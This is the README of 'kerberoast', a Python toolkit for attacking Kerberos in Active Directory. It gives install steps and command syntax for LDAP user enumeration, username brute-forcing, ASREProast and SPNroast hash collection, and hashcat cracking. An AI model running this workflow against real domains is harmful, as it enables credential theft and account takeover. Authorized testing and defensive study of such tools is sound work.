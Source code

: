 # kerberoast
Kerberos attack toolkit -pure python-

![kerbi_logo_big|50%](https://user-images.githubusercontent.com/19204702/84300988-eb5bbc80-ab07-11ea-93c1-35853203d7bf.png)

### Install
```pip3 install kerberoast```   

#### Prereqirements
Python 3.6
See requirements.txt


### For the impatient
IMPORTANT: the accepted target url formats for LDAP and Kerberos are the following  
```<ldap_connection_url>``` : ```<protocol>+<auth-type>://<domain>\<user>:<password>@<ip_or_hostname>/?<param1>=<value1>```  
```<kerberos_connection_url>```: ```<protocol>+<auth-type>://<domain>\<user>:<password>@<ip_or_hostname>/?<param1>=<value1>```  

Steps -with SSPI-:
```kerberoast auto <DC_ip>```  

Steps -SSPI not used-:  
1. Look for vulnerable users via LDAP  
```kerberoast ldap  all <ldap_connection_url> -o ldapenum```
2. Use ASREP roast against users in the ```ldapenum_asrep_users.txt``` file  
```kerberoast asreproast <DC_ip> -t ldapenum_asrep_users.txt```
3. Use SPN roast against users in the ```ldapenum_spn_users.txt``` file  
```kerberoast spnroast <kerberos_connection_url> -t ldapenum_spn_users.txt```
4. Crack SPN roast and ASPREP roast output with hashcat   

## Commands
### ldap
This command group is for enumerating potentially vulnerable users via LDAP.  
#### Command structure  
&nbsp;&nbsp;&nbsp;&nbsp;```kerberoast ldap <type> <ldap_connection_url> <options>```  
  
```Type```: It supports three types of users to be enumerated  
1. ```spn``` Enumerates users with ```servicePrincipalName``` attribute set.  
2. ```asrep``` Enumerates users with ```DONT_REQ_PREAUTH``` flag set in their UAC attribute.
3. ```all``` Startes all the above mentioned enumerations.

```ldap_connection_url```:  Specifies the usercredential and the target server in the msldap url format (see help)  
  
```options```:  
&nbsp;&nbsp;&nbsp;&nbsp;```-o```: Output file base name  

### brute
This command is to perform username enumeration by brute-forcing the kerberos service with possible username candidates  
#### Command structure  
&nbsp;&nbsp;&nbsp;&nbsp;```kerberoast brute <realm> <dc_ip> <targets> <options>```  
  
```realm```: The kerberos realm usually looks like ```COMPANY.corp```  
```dc_ip```: IP or hostname of the domain controller  
```targets```: Path to the file which contains the possible username candidates  
```options```:   
&nbsp;&nbsp;&nbsp;&nbsp;```-o```: Output file base name 

### asreproast
This command is to perform ASREProast attack
#### Command structure  
&nbsp;&nbsp;&nbsp;&nbsp;```kerberoast asreproast <dc_ip> <options>```  
  
```dc_ip```: IP or hostname of the domain controller  
```options```:  
&nbsp;&nbsp;&nbsp;&nbsp;```-r```: Specifies the kerberos realm to be used. It overrides all other realm info.  
&nbsp;&nbsp;&nbsp;&nbsp;```-o```: Output file base name  
&nbsp;&nbsp;&nbsp;&nbsp;```-t```: Path to the file which contains the usernames to perform the attack on   
&nbsp;&nbsp;&nbsp;&nbsp;```-u```: Specifies the user to perform the attack on. Format is either ```<username>``` or ```<username>@<realm>``` but in the first case, the ```-r``` option must be used to specify the realm  
  
## spnroast
This command is to perform SPNroast (AKA kerberoast) attack.  
#### Command structure  
&nbsp;&nbsp;&nbsp;&nbsp;```kerberoast spnroast <kerberos_connection_url> <options>```  
  
```kerberos_connection_url```: Specifies the usercredential and the target server in the kerberos URL format (see help) 

```options```:  
&nbsp;&nbsp;&nbsp;&nbsp;```-r```: Specifies the kerberos realm to be used. It overrides all other realm info.  
&nbsp;&nbsp;&nbsp;&nbsp;```-o```: Output file base name  
&nbsp;&nbsp;&nbsp;&nbsp;```-t```: Path to the file which contains the usernames to perform the attack on   
&nbsp;&nbsp;&nbsp;&nbsp;```-u```: Specifies the user to perform the attack on. Format is either ```<username>``` or ```<username>@<realm>``` but in the first case, the ```-r``` option must be used to specify the realm  
